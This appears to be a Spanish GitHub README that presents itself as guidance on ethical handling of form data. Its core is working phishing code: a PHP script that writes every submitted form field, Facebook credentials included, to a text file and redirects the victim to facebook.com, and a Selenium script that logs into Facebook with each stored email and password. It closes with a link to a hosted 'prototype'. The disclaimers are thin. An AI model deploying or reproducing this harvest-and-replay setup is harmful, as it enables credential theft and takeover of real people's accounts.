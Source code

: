# Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
Este còdigo almacena los datos de un formulario en un bloc de notas y redirige a facebook
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.
## Automatizar el inicio de sesiòn en facebook con contraseñas y usuarios almacenados en un bloc de notas
El código que proporcionaste es un ejemplo de cómo utilizar Selenium para automatizar el inicio de sesión en una página web utilizando contraseñas almacenadas en un archivo. El código realiza las siguientes acciones:

Configura el controlador de Selenium y abre el sitio web de Facebook.
Lee las credenciales desde un archivo de bloc de notas ("credenciales.txt").
Divide el archivo en bloques separados por líneas en blanco para procesar las credenciales de múltiples usuarios.
Para cada usuario en los bloques separados:
a. Divide cada bloque en líneas y crea un diccionario clave-valor para las credenciales.
b. Verifica si existen las claves 'email' y 'pass' en el diccionario.
c. Encuentra los elementos de usuario y contraseña en la página web.
d. Ingresa las credenciales en los campos correspondientes.
e. Envía el formulario de inicio de sesión.
f. Espera a que la página se cargue (puedes ajustar este tiempo).
g. Realiza cualquier acción adicional si es necesario.
Este código es útil para realizar pruebas o automatizar el proceso de inicio de sesión con múltiples cuentas. Sin embargo, ten en cuenta que su uso debe realizarse de manera ética, legal y en un entorno controlado donde tengas permiso para llevar a cabo pruebas de este tipo. Además, asegúrate de que el archivo de contraseñas se mantenga de manera segura y que las contraseñas se almacenen de forma encriptada y protegida.
```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys

# Configura el controlador de Selenium y el sitio web de destino
driver = webdriver.Chrome()
driver.get("https://www.facebook.com")

# Lee las credenciales desde el archivo de bloc de notas
with open("credenciales.txt", "r") as file:
    data = file.read()

# Divide el archivo en bloques separados por líneas en blanco
usuarios = data.split('\n\n')

for usuario in usuarios:
    # Divide cada bloque en líneas y crea un diccionario clave-valor
    credenciales = {}
    for line in usuario.split('\n'):
        key, value = line.strip().split('=')
        credenciales[key] = value

    # Verifica si existen las claves 'email' y 'pass' en el diccionario
    if 'email' in credenciales and 'pass' in credenciales:
        email = credenciales['email']
        password = credenciales['pass']

        # Encuentra los elementos de usuario y contraseña
        username_element = driver.find_element_by_id("email")
        password_element = driver.find_element_by_id("pass")

        # Ingresa las credenciales
        username_element.send_keys(email)
        password_element.send_keys(password)

        # Envía el formulario de inicio de sesión
        password_element.send_keys(Keys.RETURN)

        # Espera a que la página se cargue (puedes ajustar este tiempo)
        driver.implicitly_wait(10)

        # Realiza cualquier acción adicional aquí si es necesario

# Cierra el navegador
driver.close()

```
Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/
